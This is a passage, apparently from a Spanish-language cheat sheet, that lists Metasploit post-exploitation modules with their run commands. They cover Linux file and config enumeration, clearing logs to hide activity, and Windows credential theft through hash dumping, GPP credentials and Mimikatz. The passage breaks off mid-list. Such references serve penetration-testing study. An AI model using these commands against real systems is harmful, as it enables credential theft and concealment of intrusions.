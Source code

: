         ```bash
        run post/linux/gather/enum_files
        ```
29. **Módulo: `post/linux/gather/enum_configs`**
    * **Ruta:** `use post/linux/gather/enum_configs`
    * **Descripción:** Enumera configuraciones específicas de la máquina Linux.
    *   **Uso:**

        ```bash
        run post/linux/gather/enum_configs
        ```
30. **Módulo: `post/linux/manage/clear_logs`**
    * **Ruta:** `use post/linux/manage/clear_logs`
    * **Descripción:** Borra los registros de logs en la máquina Linux para ocultar actividades.
    *   **Uso:**

        ```bash
        run post/linux/manage/clear_logs
        ```

Estos módulos te permitirán realizar diversas acciones y recopilar información en sistemas Linux después de una explotación exitosa.

módulos de Metasploit para la recolección de hashes y credenciales de usuarios en sistemas Windows y Linux:

#### **Para Windows:**

31. **Módulo: `post/windows/gather/smart_hashdump`**
    * **Ruta:** `use post/windows/gather/smart_hashdump`
    * **Descripción:** Recopila hashes de contraseñas desde la memoria en sistemas Windows.
    *   **Uso:**

        ```bash
        run post/windows/gather/smart_hashdump
        ```
32. **Módulo: `post/windows/gather/credentials/gpp`**
    * **Ruta:** `use post/windows/gather/credentials/gpp`
    * **Descripción:** Enumera credenciales almacenadas en Preferencias de Política de Grupo (GPP) en sistemas Windows.
    *   **Uso:**

        ```bash
        run post/windows/gather/credentials/gpp
        ```
33. **Módulo: `post/windows/gather/credentials/mimikatz`**
    * **Ruta:** `use post/windows/gather/credentials/mimikatz`
    * **Descripción:** Utiliza Mimikatz para extraer credenciales almacenadas en sistemas Windows.
    *   **Uso:**

        ```bash
        run post/windows/gather/credentials/mimikatz
        ```
34. **Módulo: `post/windows/gather/credentials/credential_collector`**
    * **Ruta:** `use post/windows/gather/credentials/credential_collector`
    * **Descripción:** Recopila credenciales almacenadas en sistemas Windows.
    *   **Uso:**
